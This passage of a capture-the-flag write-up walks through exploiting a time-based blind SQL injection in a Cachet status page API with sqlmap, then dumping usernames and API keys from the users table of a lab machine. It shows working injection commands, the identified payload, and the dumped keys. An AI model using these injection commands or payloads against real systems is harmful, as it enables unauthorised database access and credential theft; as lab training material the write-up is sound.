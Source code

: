 

    oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
    ---
    Parameter: #1* (URI)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+'a'=? and 1=1) AND (SELECT 3497 FROM (SELECT(SLEEP(5)))gMJf)+--+
    ---
    ...[snip]...



Interestingly, it couldn't find a boolean injection, but only a
time-based one. I wasn't able to recreate the boolean injection manually
either. I think it's missing data in the database (because this is an
unintended path on a CTF box) that it would show or not show, and that's
why it fails. This is more of a pain (no threads), but will still work.

#### Enumerate DB

Because the injection is slow, I'll guess that the DB name is the same
as the
[example](https://github.com/CachetHQ/Cachet/blob/2.4/.env.example)
`.env` file, "cachet". There should be a `users` table that has hashes
and API keys. From [the
docs](https://docs.cachethq.io/docs/api-authentication), API keys are
created when the user is created:

> The API Token is generated at installation time for the main user or
> when a new team member is added to your status page and can be found
> on your profile page (click your profile picture to get there).

The `User` object ([defined
here](https://github.com/CachetHQ/Cachet/blob/2.4/app/Models/User.php))
has `username`, `password`, and `api_key` fields, among others. I would
normally dump the password, but I know from the chat leak that it's not
something I can crack. I'll dump the `username` and `api_key`:



    oxdf@hacky$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch -D cachet -T users -C username,api_key --dump
    ...[snip]...
    Database: cachet
    Table: users
    [2 entries]
    +----------+----------------------+
    | username | api_key              |
    +----------+----------------------+
    | john     | 7GVCqTY5abrox48Nct8j |
    | admin    | rMSN8kJN9TPADl2cWv8N |
    +----------+----------------------+
